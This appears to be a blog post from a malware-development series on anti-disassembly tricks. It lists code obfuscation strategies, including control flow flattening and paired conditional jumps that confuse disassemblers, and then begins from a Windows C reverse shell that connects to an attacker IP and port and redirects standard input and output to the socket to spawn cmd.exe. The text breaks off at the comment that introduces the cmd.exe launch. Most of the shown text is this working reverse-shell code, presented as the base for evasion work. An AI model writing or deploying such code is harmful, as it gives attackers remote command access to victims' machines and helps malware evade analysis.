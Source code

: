 ```yaml
---
layout: post
title: 7 MALDEV - Anti-Disassembly Tricks
category : [Reverse, MALDEV]
tags: reverse
---
```


Here are a few commonly used strategies :
  - **API obfuscation** : changing names of identifiers, such as class names, method names, field names, arbitraty names.
  - **Opcode/assembly code obfuscation** : executables containing decrypted sections and instructions that areillegible or illogical
  - **Control flow graph (CFG) flattening** : I've made an other post about it in oalab category, but it's about breaking up nested loops and if statements, which are then concealed within large switch statement wrapped inside a loop.

Combining jz with jnz it allows to create jump instructions with same target. Jump is unrecognized by disassembler since it only disassembles instructions individually.

## Anti-Disassembly techniques

### clear C implementation

We start with our code from chapter 1 code from reverse shell windows :

```c 
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char* argv[]) {
  // IP and port details for the attacker's machine
  char *attackerIP = "10.10.1.5";
  short attackerPort = 4444;

  // initialize socket library
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // create socket object
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  connectionAddress.sin_family = AF_INET;
  connectionAddress.sin_port = htons(attackerPort);
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

  // establish connection to the remote host
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);
  startupInfo.dwFlags = STARTF_USESTDHANDLES;
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // initiate cmd.exe with redirected streams
```